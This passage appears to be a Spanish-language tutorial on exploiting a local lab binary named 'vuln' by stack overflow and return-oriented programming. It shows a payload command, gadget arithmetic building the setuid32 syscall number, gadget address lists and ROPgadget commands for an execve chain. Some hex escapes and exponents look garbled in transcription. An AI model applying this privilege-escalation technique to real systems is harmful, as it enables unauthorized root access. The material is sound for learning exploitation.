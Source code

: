 ```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  

    inc ecx -> ECX = 0x00000000
    inc ecx -> ECX = 0x00000001
    inc ecx -> ECX = 0x00000002
    inc ecx -> ECX = 0x00000003

add ecx, ecx -> ECX = 0x6  
add ecx, ecx -> ECX = 0xc  
inc ecx -> ECX = 0xd  
add ecx, ecx -> ECX = 0x1a  
add ecx, ecx -> ECX = 0x34  
inc ecx -> ECX = 0x35  
add ecx, ecx -> ECX = 0x6a  
add ecx, ecx -> ECX = 0xd4  
inc ecx -> ECX = 0xd5

Bien, ahora podemos pasarlo a eax mediante el `or al, ch`… oh **_baia_**. Resulta que el 213 (0xd5) se encuentra en cl, no en ch… Pues habrá que pasarlo mediante rotación. Resulta que en decimal mover hacia la izquierda las unidades añadiendo 0’s a la derecha es multiplicar por potencias de 10, pues en el sistema binario es multiplicar por potencias de 2, luego multiplicar por potencias de 2 es rotar los bits a la izquierda añadiendo 0’s a la derecha. Tenemos que rotarlo 8 bits (lo movemos de los 8 bits más bajos a los 8 bits más altos del cx), por lo que debemos multiplicar por 28.  

    add ecx, ecx
    add ecx, ecx
    add ecx, ecx
    add ecx, ecx
    add ecx, ecx
    add ecx, ecx
    add ecx, ecx
    add ecx, ecx

Ahora hacemos 0x00000000 el eax (no lo he hecho antes pero no afecta…)  
`xor eax, eax`  
Ahora el famoso  
`or al, ch`  
Por fortuna en el ebx ya tenemos un 0x0, así que solo falta encontrar un `int 0x80;ret` (si solo invocásemos una syscall bastaría un `int 0x80`, sin embargo, tras la sycall debemos encadenar más ROP). Cuando ROPgadget en /usr/lib32/libc.so.6 no encuentra ninguno casi me atraganto. Buscamos entonces en ld-linux.so.2, donde se encuentran de hecho dos resultados.  
`int 0x80`  
Algo así  
`0x080486ee x4`

0x080484aa x2  
0x080486ee  
0x080484aa x2  
0x080486ee  
0x080484aa x2  
0x080486ee

0x080484aa x8

0xf7df321f

0x08048337

0xf7fd6c30  
Hacemos la prueba y mediante strace vemos el setuid32(0). Perfecto.  
Ahora con `python2.7 ROPgadget/ROPgadget.py --binary vuln --badbytes 00 --ropchain` intentamos generar un ropchain para execve(), sin embargo, no es capaz. Vamos a probar para alguna librería:  
`python2.7 ROPgadget/ROPgadget.py --binary /usr/lib32/libc.so.6 --badbytes 00 --ropchain --offset 0xf7dc4000`  
```